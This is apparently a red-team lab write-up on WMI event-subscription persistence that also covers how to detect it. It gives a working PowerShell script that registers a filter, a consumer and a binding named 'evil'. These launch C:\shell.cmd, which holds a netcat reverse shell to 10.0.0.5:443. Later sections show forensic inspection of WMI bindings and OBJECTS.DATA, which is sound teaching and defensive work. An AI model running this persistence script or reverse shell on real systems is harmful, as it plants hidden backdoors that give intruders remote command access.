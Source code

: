 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# Abusing Windows Managent Instrumentation

WMI events are made up of 3 key pieces:

* event filters - conditions that the system will listen for \(i.e on new process created, on new disk added, etc.\)
* event consumers - consumers can carry out actions when event filters are triggered \(i.e run a program, log to a log file, execute a script, etc.\)
* filter to consumer bindings - the gluing matter that marries event filters and event consumers together in order for the event consumers to get invoked.

WMI Events can be used by both offenders \(persistence, i.e launch payload when system is booted\) as well as defenders \(kill process evil.exe on its creation\).

## Execution

Creating `WMI __EVENTFILTER`, `WMI __EVENTCONSUMER` and `WMI __FILTERTOCONSUMERBINDING`:

{% code title="attacker@victim" %}
```csharp
# WMI __EVENTFILTER
$wmiParams = @{
    ErrorAction = 'Stop'
    NameSpace = 'root\subscription'
}

$wmiParams.Class = '__EventFilter'
$wmiParams.Arguments = @{
    Name = 'evil'
    EventNamespace = 'root\CIMV2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 1200"
}
$filterResult = Set-WmiInstance @wmiParams

# WMI __EVENTCONSUMER
$wmiParams.Class = 'CommandLineEventConsumer'
$wmiParams.Arguments = @{
    Name = 'evil'
    ExecutablePath = "C:\shell.cmd"
}
$consumerResult = Set-WmiInstance @wmiParams

#WMI __FILTERTOCONSUMERBINDING
$wmiParams.Class = '__FilterToConsumerBinding'
$wmiParams.Arguments = @{
    Filter = $filterResult
    Consumer = $consumerResult
}

$bindingResult = Set-WmiInstance @wmiParams
```
{% endcode %}

Note that the `ExecutablePath` property of the `__EVENTCONSUMER` points to a rudimentary netcat reverse shell:

{% code title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode %}

## Observations

Note the process ancestry of the shell - as usual, wmi/winrm spawns processes from `WmiPrvSE.exe`:

![](../../../.gitbook/assets/wmi-shell-system.png)

On the victim/suspected host, we can see all the regsitered WMI event filters, event consumers and their bindings and inspect them for any malicious intents with these commands:

{% code title="\_\_EventFilter@victim" %}
```csharp
Get-WmiObject -Class __EventFilter -Namespace root\subscription
```
{% endcode %}

Note the `Query` property suggests this wmi filter is checking system's uptime every 5 seconds and is checking if the system has been up for at least 1200 seconds:

![](../../../.gitbook/assets/wmi-filter.png)

Event consumer, suggesting that the `shell.cmd` will be executed upon invokation as specified in the property `ExecutablePath`:

{% code title="\_\_EventConsumer@victim" %}
```csharp
Get-WmiObject -Class __EventConsumer -Namespace root\subscription
```
{% endcode %}

![](../../../.gitbook/assets/wmi-consumer.png)

{% code title="\_\_FilterToConsumerBinding@victim" %}
```csharp
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```
{% endcode %}

![](../../../.gitbook/assets/wmi-binding.png)

Microsoft-Windows-WMI-Activity/Operational contains logs for event `5861` that capture event filter and event consumer creations on the victim system:

![](../../../.gitbook/assets/wmi-filter-consumer-creation.png)

## Inspection

If you suspect a host to be compromised and you want to inspect any `FilterToConsumer` bindings, you can do it with PSRemoting and the commands shown above or you can try getting the file`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA`

Then you can use [PyWMIPersistenceFinder.py](https://github.com/davidpany/WMI_Forensics) by David Pany to parse the `OBJECTS.DATA` file and get a list of bindings like:

```bash
./PyWMIPersistenceFinder.py OBJECTS.DATA
```

![](../../../.gitbook/assets/wmi-parser.png)

### Strings + Grep

If you are limited to only the native \*nix/cygwin utils you have to hand, you can get a pretty good insight into the bindings with the following command:

```csharp
strings OBJECTS.DATA | grep -i filtertoconsumerbinding -A 3 --color
```

Below are the results:

![](../../../.gitbook/assets/wmi-strings-grep.png)

From the above graphic, we can easily see that one binding connects two evils - the evil consumer and the evil filter.

Now that you know that you are dealing with `evil` filter and `evil` consumer, use another rudimentary piped command to look into the evil further:

```csharp
strings OBJECTS.DATA | grep -i 'evil' -B3 -A2 --color
```

Note how we can get a pretty decent glimpse into the malicious WMI persistence even with simple tools to hand - note the `C:\shell.cmd`and `SELECT * FROM` ... - if you recall, this is what we put in our consumers and filters at the very [beginning](./#execution) of the lab:

![](../../../.gitbook/assets/wmi-strings-grep2.png)

## References

Based on the research by [Matthew Graeber](https://twitter.com/mattifestation) and other great resources listed below: 

{% embed url="https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/" %}

{% embed url="https://www.youtube.com/watch?v=0SjMgnGwpq8" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1084" %}

{% embed url="https://www.darkoperator.com/blog/2013/1/31/introduction-to-wmi-basics-with-powershell-part-1-what-it-is.html" %}

{% embed url="https://pentestarmoury.com/2016/07/13/151/" %}

{% embed url="https://msdn.microsoft.com/en-us/library/aa394084%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396" %}

{% embed url="https://www.eideon.com/2018-03-02-THL03-WMIBackdoors/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/embedded/aa940177\(v=winembedded.5\)" %}


